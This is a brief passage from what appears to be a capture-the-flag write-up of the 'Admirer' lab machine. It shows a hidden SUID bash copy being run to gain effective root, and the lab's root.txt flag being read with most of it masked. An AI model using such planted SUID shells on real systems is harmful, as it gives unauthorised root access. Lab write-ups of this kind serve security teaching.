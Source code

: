 

Or SUID `bash`:



    waldo@admirer:/var/tmp$ ./.0xdf -p
    .0xdf-4.4# id
    uid=1000(waldo) gid=1000(waldo) euid=0(root) groups=1000(waldo),1001(admins)



Either way, grab `root.txt`:



    root@admirer:~# cat root.txt
    996a2609************************







